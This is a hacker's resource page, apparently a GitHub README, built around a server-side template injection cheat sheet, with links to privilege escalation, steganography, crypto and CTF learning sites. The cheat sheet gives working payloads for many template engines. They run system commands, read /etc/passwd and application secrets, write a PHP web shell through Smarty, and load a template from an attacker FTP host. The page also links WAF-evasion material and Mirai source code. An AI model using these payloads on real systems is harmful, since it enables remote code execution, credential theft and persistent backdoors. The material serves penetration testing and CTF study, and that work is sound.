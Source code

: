 Intel (insert better title here)
================

- [Cheatsheets](#Cheatsheets)
- [Enumeration](#Enumeration)
- [Privelege Escalation](#Privilege-Escalation)
- [Steganography](#Steganography)
- [Cryptography](#Cryptography)
- [Reverse Engineering](#Reverse-Engineering)
- [Wordlists](#Wordlists)
- [Learn To](#Learn-To)

----------------------------------

## Cheatsheets

### Server Side Template Injection (SSTI)

##### Polyglot:
```
${{<%[%'"}}%\
```

##### FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
##### (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
##### Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
##### Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
##### Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
##### Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
##### ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
##### Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
##### Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
##### Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
##### Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
##### Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
##### Razor (.Net):
```
@(1+2)
@{// C# code}
```

If you need to evade WAF check this site out: https://gusralph.info/jinja2-ssti-research/


[Source](https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)
[More Useful Information](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
[Even More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)

## Enumeration

https://github.com/darkoperator/dnsrecon

## Privilege Escalation

### Windows

##### Living off the Land
https://lolbas-project.github.io/

### Linux

##### Living off the Land

https://gtfobins.github.io/



## Steganography

https://29a.ch/photo-forensics/#forensic-magnifier
https://futureboy.us/stegano/decinput.html
https://github.com/DominicBreuker/stego-toolkit
https://www.irongeek.com/i.php?page=security/unicode-steganography-homoglyph-encoder
https://stegonline.georgeom.net/upload
https://lukeslytalker.pythonanywhere.com/

## Cryptography

https://gchq.github.io/CyberChef/cyberchef.htm
https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
http://fbcs.bplaced.net/multi_encoder_decoder.html
https://quipqiup.com/
https://mothereff.in/bacon
http://www.spammimic.com/
https://crypto.interactive-maths.com/affine-cipher.html

## Reverse Engineering

https://onlinedisassembler.com/static/home/index.html

## Wordlists

https://wiki.skullsecurity.org/Passwords

## Learn To

### Hack
https://app.hackthebox.eu/dashboard
https://www.hackthissite.org/
https://www.hacksplaining.com/
https://www.hacking-lab.com/index.html
https://cryptopals.com/
https://ocw.cs.pub.ro/courses/cns
https://www.pentesteracademy.com/
https://tryhackme.com/
https://learn.hacktify.in/collections?category=courses&page=1

### Code
http://www.codecraftgame.org/
https://codingbat.com/

## Misc (yet to sort)


https://www.semanticscholar.org/paper/Text-Steganographic-Approaches%3A-A-Comparison-Agarwal/5e9e19106b8deff39118530811672d7b0fb83670?p2df
https://github.com/jgamblin/Mirai-Source-Code

